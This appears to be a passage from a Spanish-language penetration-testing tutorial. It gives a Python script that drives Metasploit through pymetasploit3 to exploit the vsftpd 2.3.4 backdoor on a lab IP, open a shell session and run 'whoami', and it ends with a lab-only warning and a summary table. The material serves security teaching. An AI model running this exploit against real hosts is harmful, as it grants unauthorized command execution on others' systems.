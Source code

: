```python
from pymetasploit3.msfrpc import MsfRpcClient
import time

client = MsfRpcClient('123')

# Usamos un exploit con payload
exploit = client.modules.use('exploit', 'unix/ftp/vsftpd_234_backdoor')
payload = client.modules.use('payload', 'cmd/unix/interact')
exploit['RHOSTS'] = '192.168.56.102'
exploit['RPORT'] = 21

print("[*] Ejecutando el exploit...")
job_id = exploit.execute(payload=payload)

# Esperamos a que la sesión aparezca
print("[*] Esperando sesión...")
time.sleep(5)

# Mostramos sesiones activas
sessions = client.sessions.list
print(sessions)

# Ejecutamos comandos si hay sesión activa
if sessions:
    sid = list(sessions.keys())[0]
    session = client.sessions.session(sid)
    output = session.run_with_output('whoami')
    print(f"[+] Salida del comando:\n{output}")
```

---

### ⚠️ Seguridad y práctica responsable

- Solo usa Metasploit y PyMetasploit en **entornos de laboratorio**.
- No lances exploits en redes que no te pertenecen.
- Usa máquinas vulnerables como **Metasploitable, TryHackMe, HackTheBox**, etc.

---

### ✅ Resumen

| Componente          | Descripción                        |
| ------------------- | ---------------------------------- |
| `msfconsole`        | Lanza Metasploit                   |
| `load msgrpc`       | Inicia el servicio RPC             |
| `pymetasploit3`     | Librería Python para controlar MSF |
| `exploit.execute()` | Ejecuta un exploit con payload     |
| `client.sessions`   | Accede a las sesiones activas      |

---